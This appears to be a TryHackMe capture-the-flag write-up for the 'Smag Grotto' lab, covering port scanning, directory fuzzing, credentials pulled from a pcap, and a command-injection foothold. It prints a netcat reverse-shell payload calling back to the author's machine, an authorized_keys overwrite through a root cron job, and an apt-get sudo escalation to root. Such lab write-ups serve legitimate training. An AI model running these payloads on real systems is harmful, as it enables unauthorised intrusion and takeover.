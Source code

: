 ## Smag_Grotto TryHackMe
## Level: Easy
<hr>

Lets get started

# Recon

## PortScanning

command:```sudo nmap -A 10.10.161.219 -T4  -v -p-```

From our scan we have 2 open ports, port 22 which runs ssh and port 80 which runs http. Enumeration today will be focused on port 80.





# Enumeration

Navigating to the webpage

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/db5050dc-f3d8-44be-9a60-f94498386e40)

We get the message "this site is still heavily under development". I checked the web source page well there was nothing there.

Firing up our directory enumeration tool

command:```ffuf -u "http://10.10.161.219/FUZZ" -w /usr/share/wordlists/dirb/common.txt -e .zip,.sql,.php,.phtml,.bak,.backup```

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/TryHackMe/smag_grotto]
└─$ ffuf -u "http://10.10.161.219/FUZZ" -w /usr/share/wordlists/dirb/common.txt -e .zip,.sql,.php,.phtml,.bak,.backup 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.161.219/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Extensions       : .zip .sql .php .phtml .bak .backup 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________
index.php               [Status: 200, Size: 402, Words: 69, Lines: 13, Duration: 225ms]
index.php               [Status: 200, Size: 402, Words: 69, Lines: 13, Duration: 214ms]
mail                    [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 216ms]
:: Progress: [32298/32298] :: Job [1/1] :: 211 req/sec :: Duration: [0:03:10] :: Errors: 0 ::
```
Cool, we found a ```/mail``` directory

<h4>/mail</h4>
Navigating to that directory

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/f037aac3-8b51-4dea-8638-8d9cbc6941e1)

We are able to read their mails, the mail contains a pcap file. Lets download the file to our machine and analyze it.

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/c9e0ce99-8564-4326-ade4-1fcc0ec47364)

cool stuff, we'll be analyzing this pcap file by using a tool called wireshark, this tool comes preinstalled with the linux operating system

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/fc2e13ce-1e4a-4e8a-9e61-8fb4811af249)

After checking for a little while, I found something interetsing

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/809c4616-e1fb-465d-8503-163abc8046ff)

Right-clicking on "HTTP" and following the "TCP" stream

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/2075ac6a-b1df-4da9-a613-dcdff9a61363)

cool stuff hehe😎. We found a hostname, a username and a password.

Lets add the hostname to our ```/etc/hosts``` file

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/6206f356-e02b-4a46-bd87-4cec49780900)

Navigating to the webpage

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/9be8ae5a-ee7c-4c3c-b77a-8c04837cb66b)

Clicking on ```admin.php```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/39efca26-64a0-4097-a4ca-7409345a3584)

We are required to login. We'll be using the creds we found earlier when we were analyzing the pcap files

username:```helpdesk```         password:```cH4nG3M3_n0w```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/044ba5b0-979a-4fa2-9d7a-dabc41112fa6)

Nice, we are logged in. 

Enter a command?? How about we try the command "_fly_"?? lool just kidding. We are required to use Linux commands here

Lets start with ```id``` and ```whoami```. Using these commands doesn't display any output. So I went ahead to get a shell.

Payload:```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.133.215 1234 >/tmp/f```

You can edit the IP address to that of your kali machine.

Setting up our netcat listener

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/80a3ba1c-beb3-4aa8-91a5-ad3343164203)

Now, lets paste the payload

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/22763d9f-7821-440d-adbc-eae10c7aeeee)

Checking our netcat listener;

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/a6e34964-1fa7-453d-a603-5d64d41aedd1)

Cool, we got a shell

Stabilizing the shell

commands:
```
python3 -c "import pty;pty.spawn('/bin/bash')"
ctrl + z (to background)
stty  raw -echo;fg
export TERM=screen
```
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/308eb1c9-d4d8-4198-a83a-f53ac75e413a)

Now, lets go ahead and escalate our privileges



# Privilege Escalation

So I found a cronjob running

command:```cat /etc/crontab```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/89a93027-26ca-4d08-82d1-754a51ef58b3)

So we can write into ```.ssh/authorized_keys```

Now, lets generate our own ssh key using the ```ssh-keygen``` command

command:```ssh-keygen -f gabimaru```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/dbd4f208-db57-4d12-bf5c-9387687c06a8)

I used the name ```gabimaru```, You can choose to use a name of your choice though

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/64cfd713-fd40-4538-a90c-92a6eee64c55)

So, we'll be echoing ```gabimaru.md``` into ```.backups/jake_id_rsa.pub.backup```

Let's send the file over to the targe's machine first

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/eb115adc-2708-45e7-b4b2-71ec52eee55b)

Now, lets overwrite the file

command:```cp gabimaru.pub /opt/.backups/jake_id_rsa.pub.backup```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/33114366-ae97-4519-9e83-edd82bda4dc4)

Now, that was successful. Lets wait a few mins then we can go ahead and log in as user ```jake```

command:```ssh jake@10.10.161.219 -i gabimaru```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/28488002-4266-42da-9a58-00d1b5b43fcd)

cool, we have a shell as user ```jake```

Further escalating our privileges

Checking to see the programs sudo allows the user to run

command:```sudo -l```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/073158a9-481d-4290-b9d2-f7f0fab2f7f3)

User ```jake``` can run the ```apt-get``` command with sudo privileges.

Sweet😎, lets use this to escalate our privileges

Picking a payload from [GTFOBins](https://gtfobins.github.io/) 

payload:```sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh```

Lets just paste this to the target machine. Hopefully we'll get a shell as root

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/412409d1-4a2e-4a1c-ad6c-043c17890ec8)

Cool stuff, we got a shell as root


That will be all for today
<br></br>
[Back To Home](../../index.md)












